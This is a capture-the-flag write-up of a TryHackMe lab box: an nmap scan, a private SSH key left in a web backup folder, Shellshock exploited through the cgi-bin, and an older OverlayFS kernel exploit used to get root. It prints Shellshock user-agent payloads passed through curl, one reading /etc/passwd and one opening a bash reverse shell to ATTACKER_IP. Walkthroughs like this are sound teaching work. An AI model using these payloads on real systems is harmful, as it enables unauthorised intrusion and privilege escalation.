









This box is rated medium difficulty on THM. It involves us using the Shellshock vulnerability to get RCE on the system which grants us a shell, and abusing an older Ubuntu kernel exploit to pop a shell as root user.

_Exploit Ubuntu, like a Turtle in a Hurricane_

## Scanning & Enumeration
The description of the box piqued my interest so I Googled it. Turns out turtles in hurricanes move to deeper water, implying we'll have to really enumerate this box to root it.

First things first, I run an Nmap scan against the provided IP to find all running services.

```
$ sudo nmap -p22,80 -sCV 10.67.178.33 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-24 15:01 CST
Nmap scan report for 10.67.178.33
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0day
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.38 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

Checking the landing page shows a page for Ryan's social media accounts, but not much else. Nothing on robots.txt either, so I fire up gobuster to leave subdirectory/subdomain scans running in the background.





There are a few hidden pages at /admin and /secret that don't have anything on them.



However, checking /backup reveals an RSA private key probably used to gain access to SSH in case of something disastrous. 



I use wget on the endpoint to preserve the key's structure and convert it into a hash using `ssh2john`.



JohnTheRipper or Hashcat will crack this with ease and we can SSH onto the server. There's just one problem first, we still don't have a username for the server and attempts with `Ryan` or `0day` didn't work.

## Initial Foothold
This version of OpenSSH has an exploit for username enumeration, however I couldn't get the proof of concepts I found to work. Thinking back to the subdirectory scans, we found the /cgi-bin but it wasn't exposed to read as we got a 403 Forbidden code back. 

Running a vulnerability scanner like Nikto (or Nuclei) on the web server rewards us big time. It appears to be prone to a very old [CVE-2014–6278](https://nvd.nist.gov/vuln/detail/cve-2014-6278) (Shellshock) which allows for RCE on the system due to how bash parses function definitions in the values of environment variables.



I use [this page](https://github.com/mubix/shellshocker-pocs) for references to a PoC as the typical python script doesn't function for me here. By curling the webpage and supplying a malicious user-agent payload, we can execute any commands with it.

```
curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd;" http://MACHINE_IP/cgi-bin/test.cgi
```

Displaying /etc/passwd gave me a list of users on the box to use with the SSH key found earlier.



Attempting it on accounts that have a shell yeilds nothing, looks to be a red herring. I decide to use Shellshock and setup a netcat listener to grab a low level shell on the box.

```
curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1;" http://MACHINE_IP/cgi-bin/test.cgi
```

Here we can grab the first flag in Ryan's home directory and begin looking for routes to escalate privileges to root. While checking /etc/passwd, I saw that ryan's line contained an ubuntu version, which looked like a hint at what to do next. 

## Privilege Escalation
It looks like the kernel version is a bit on the older side and seems to be vulnerable to a local privesc. [CVE-2015–1328](https://nvd.nist.gov/vuln/detail/cve-2015-1328) explains that the OverlayFS local privilege escalation abuses a kernel bug where unprivileged OverlayFS mounts copy files with incorrect ownership or permissions, letting an attacker modify root-effective files and execute them to gain root access.

[Here](https://www.exploit-db.com/exploits/37292) is the PoC I used.



Attempting to compile the exploit on the system throws an error saying there is no such file or directory of 'cc1'. Since we know that GCC is indeed on the box, this is most likely a `$PATH` issue.

Exporting the `PATH` variable to Ubuntu's default rectifies this issue. 

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Now we can compile and execute the exploit without further problems.



Finally, grabbing the root flag completes this box. This was a pretty cool one to do as it utilized a few popular older exploits to get full access over the machine. 

I hope this was helpful to anyone following along or stuck and happy hacking!
